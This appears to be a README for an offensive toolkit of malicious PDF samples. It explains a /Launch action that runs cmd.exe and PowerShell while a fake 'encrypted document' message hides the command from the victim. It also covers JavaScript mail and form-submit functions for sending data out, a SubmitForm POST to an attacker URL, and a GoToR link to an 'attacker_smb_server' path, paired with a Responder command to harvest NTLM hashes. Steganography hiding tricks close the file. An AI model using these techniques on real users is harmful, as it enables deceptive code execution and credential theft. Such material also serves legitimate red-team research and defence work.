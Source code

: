 # PDF:

Open pdf in vim for inspect them...

## [1] claw_powershell.pdf

Run powershell command.. A warning will be prompt to the user.<br>
![warning msg](pdf/warning_psh.png)<br>
But if we scroll up, we can see:<br>
![warning2](pdf/warning_psh_cmd.png)
We use:
- `Action/S/Launch/Win` for specifying wich action to do, in this case lunch action on windows.
- `/F (cmd.exe)` for lunch cmd.exe.
- `/P (/C start powershell.exe -Command "echo 'hello, this windows will be close in 10sec...'; sleep 10"` is the parameters to give to cmd.exe
- `This document is encrypted
To view the encrypted content please tick the "Do not show this message again" box
and press Open.` is for "hide" the previouses steps. (3lines and the victim will not see what we really do (unless if he scroll up))
### [!] Modify message popup will only work with adbe < 9.3.4

---

## [2] claw_js-alert.pdf

Using `/JS` will execute some javascript. Some commands are restricted.<br>
But we can steal launch popup or send form.
###email functions:
With adobe you have 4 functions for send emails:
- `app.mailMsg()`    : This function sends an email message with no attachments.
- `doc.mailForm()`   : This function sends the form data in fdp (Form Data Format) as a file attachment to the email. (dont work on adobe 9)
- `doc.mailDoc()`    : This function sends the entire PDF file as an email attachment.
- `doc.submitForm()` : This function can send form data in a variety of formats.

[AcroJS API Reference](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/js_api_reference.pdf)

---

## [3] claw_post.pdf

Make a post .. <br>
```pdf
/S /SubmitForm
/F
<<
/F (http://172.25.0.7:8080/test.php)
/FS /URL
```

- `/S /SubmitForm`                       : The  type  of  action (in this case /SubmitForm
- `/F (http://172.25.0.7:8080/test.php)` : The  URL of the form
- `/FS /URL`                             : The file specificatin, in this case "/URL"

### [!] A popup will prompt the user for accept the post or not. The message can't be change (url + warnings)

Very usefull for retrieve adobe version (Reco):<br><br>
![version](pdf/get_adobe_version.png)

---

## [4] claw_responder.pdf

Retrieve username and hash .<br>
In this this case we use:
- `GoToR|GoToE` : (Go To Remote & Go To Embedded) The function to opens an embedded PDF file automatically without notifying the user.In this case we use `/F` (the location off the pdf) "/F (\\\\attacker_smb_server\\test)"

You should first run:<br>
```sh
sudo responder -I <INTERFACE> -wF
```
on the attacker host..<br>
![responder](pdf/responder.png)

---

## [5] claw_simple_steg.pdf

Hide stuff on non used object.

---

## [6] claw_b64-comment_steg.pdf

Hide stuff in pdf comment using `%`.

---

## [7] claw_img_steg.pdf

Hide stuff inside an image used by the pdf.<br>
For extract :<br>
```sh
binwalk --dd='jpeg:jpg' claw_img_steg.pdf
steghide extract -sf _claw_img_steg.pdf.extract/*jpg
#no password.. just press enter
```


